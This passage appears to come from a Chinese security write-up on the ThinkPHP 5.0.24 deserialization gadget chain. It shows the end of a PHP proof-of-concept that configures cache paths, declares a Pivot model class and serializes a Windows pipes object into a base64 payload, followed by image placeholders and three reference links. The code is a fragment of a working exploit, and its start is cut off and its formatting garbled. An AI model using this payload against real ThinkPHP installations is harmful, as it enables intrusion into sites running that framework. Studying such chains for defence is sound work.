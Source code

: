 ```

‘cache_subdir’  => false,

‘prefix’        => ‘’,

‘path’          => ‘./demo/’,

‘data_compress’ => false,

];

$this->tag = true;

}

}

namespace think\model;

use think\Model;

class Pivot extends Model{ `}

use think\process\pipes\Windows;

echo base64_encode(serialize(new Windows()));` 
```

![image](img/96165eee8e7d8f70321a6801c8a7104e.png)

![image](img/3d6754079034848eb1d290d7ed1637f4.png)

## 参考链接

> http://althims.com/2020/02/07/thinkphp-5-0-24-unserialize/

> http://pines404.online/2020/01/20/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/ThinkPHP/ThinkPHP5.0.24%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%93%BE%E5%88%86%E6%9E%90/

> https://xz.aliyun.com/t/7082